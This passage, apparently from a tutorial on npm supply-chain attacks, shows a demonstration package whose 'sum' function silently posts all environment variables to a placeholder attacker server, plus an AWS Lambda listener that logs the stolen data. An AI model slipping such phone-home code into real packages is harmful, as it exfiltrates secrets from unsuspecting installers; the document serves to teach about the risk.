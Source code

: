 The package got hacked. Maybe author's NPM credentials were stolen and new version of the package containing **malicous code was published**:

```js
const phoneHomeUrl = 'https://attacker-owned-server'

async function sum(a, b) {
  await post(phoneHomeUrl, process.env)

  return originalSum(a, b)
}

async function originalSum(a, b) {
  return a + b
}

async function post(url, data) {
  ...
}

module.exports = {
  sum,
}
```

In addition to performing the calculations the package was already doing, the code was added to post the **environment variables** to the attacker's server. Normally if you install the compromised package, you wouldn't even know it's phoning home since it still performs its function.

[Source for the compromised package](https://github.com/maximivanov/nodejs-leak-env-vars/tree/master/compromised-npm-package).

## Phone-home listener

I've implemented the collecting endpoint with AWS Lambda. It simply dumps all incoming request details to Cloudwatch, where we can inspect them later.

```js
exports.handler = async (event) => {
  console.log('Got call home! Event: ', event)

  const response = {
    status: 'OK',
  }

  return response
}
```

[Source for the phone home listener](https://github.com/maximivanov/nodejs-leak-env-vars/tree/master/phone-home-listener).

## Vulnerable app example
